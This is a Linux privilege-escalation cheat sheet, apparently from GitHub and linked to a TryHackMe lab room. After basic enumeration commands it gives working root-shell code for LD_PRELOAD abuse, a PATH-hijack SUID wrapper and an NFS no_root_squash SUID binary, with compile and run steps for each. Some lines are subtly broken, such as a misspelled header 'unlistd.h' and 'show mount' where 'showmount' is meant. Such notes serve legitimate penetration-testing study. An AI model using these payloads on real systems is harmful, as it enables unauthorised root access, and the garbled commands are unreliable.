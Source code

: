 # Linux Privilege Escalation

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

## Check for Kernel Exploits

```
uname -r
```
```
lsb_release ‐a
```
**************************************
## Check for SUID or SGID Bits Set
```
find / -type f -perm -04000 -ls 2>/dev/null
```
SUID Only:
```
find / -perm -u=s -type f 2>/dev/null
```
**************************************
## Check Capabilities
```
getcap -r / 2>/dev/null
```
**************************************
## Check Cron Jobs
```
cat /etc/crontab
```
**************************************
## Leverage LD_PRELOAD

Check for LD_PRELOAD (with env_keep option)
```
sudo -l
```

Write a simple C code compiled as a share object (.so extension) file

* The C code will simply spawn a root shell and can be written as follows:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Save this code as shell.c and compile it using gcc into a shared object file using the following parameters
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Run the program by specifying the LD_PRELOAD option, as follows:
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
**************************************
## PATH

```
echo $PATH
```
* What folders are located under $PATH?
* Does your current user have write privileges for any of these folders?
* Can you modify $PATH?
* Is there a script/application you can start that will be affected by this vulnerability?

Example Script: 
```
#include<unlistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("[BINARY]");
}
```
```
gcc path_exp.c -o path -w
```
```
chmod u+s path
```

Search for writable directories:
```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```
To make a writable directory under $PATH:
```
export PATH=/tmp:$PATH
```
```
cd /tmp
```
```
echo "/bin/bash/" > [BINARY]
```
```
chmod 777 [BINARY]
```
```
./path
```
**************************************
## Network File Sharing (NFS)

If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
```
cat /etc/exports
```

Enumerate mountable shares:
```
show mount -e [TARGET-IP]
```

Mount one of the “no_root_squash” shares to attack machine and start building executable:
```
mkdir /tmp/[YOUR-DIRECTORY]
```
```
mount -o rw [TARGET-IP]:[SHARE-DIRECTORY] /tmp/[YOUR-DIRECTORY]
```

Set SUID bits with a simple executable that will run /bin/bash on the target system: (nfs.c)
```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Compile the code:
```
gcc nfs.c -o nfs -w
```
```
chmod +s nfs
```
```
./nfs
```

**************************************
## Reference
* https://tryhackme.com/room/linprivesc
